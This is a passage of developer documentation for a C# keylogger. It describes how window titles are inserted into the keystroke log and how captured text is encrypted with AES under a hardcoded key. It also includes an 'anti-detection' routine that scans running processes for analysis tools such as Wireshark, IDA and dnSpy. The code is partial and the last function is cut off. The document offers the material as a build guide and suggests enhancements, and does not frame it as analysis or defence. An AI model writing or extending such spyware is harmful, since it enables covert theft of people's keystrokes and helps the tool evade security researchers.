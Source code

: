 
#### Implementation Details:

1. **Buffer Size**: The 256-character buffer is based on common window title length constraints but may be insufficient for some applications.

2. **Context Association**: The current implementation inserts window change markers directly into the keystroke log, creating a simple contextual relationship.

3. **Performance Impact**: `GetForegroundWindow` and `GetWindowText` are low-impact API calls, but are called frequently in the main loop.

## Encryption System

### AES Implementation

The project uses AES-256 symmetric encryption with a fixed key:

```csharp
static string Encrypt(string plainText)
{
    using (Aes aes = Aes.Create())
    {
        aes.Key = Encoding.UTF8.GetBytes(encryptionKey);
        aes.IV = new byte[16]; // Initialization vector
        
        // Encryption implementation
        // ...
    }
}
```

#### Cryptographic Considerations:

1. **Fixed IV**: The implementation uses a zero-initialized IV, which reduces the cryptographic strength. A random IV per entry would be more secure but require additional storage.

2. **Key Management**: The encryption key is stored as a constant in the code, which presents a major security weakness. A production-grade implementation would use secure key derivation and storage.

3. **Future Enhancement**: Consider implementing asymmetric encryption with a public key for logging, requiring a private key for decryption.

## Anti-Detection Subsystem

The platform implements process enumeration to detect security tools:

```csharp
static bool DetectSecurityTools()
{
    string[] securityTools = new string[] {
        "wireshark", "process explorer", "process monitor", "ida", 
        "ollydbg", "immunity debugger", "dnspy"
    };
    
    Process[] processes = Process.GetProcesses();
    foreach (Process process in processes)
    {
        try {
            string processName = process.ProcessName.ToLower();
            if (securityTools.Any(tool => processName.Contains(tool)))
            {
                return true;
            }
        }
        catch { }
    }
```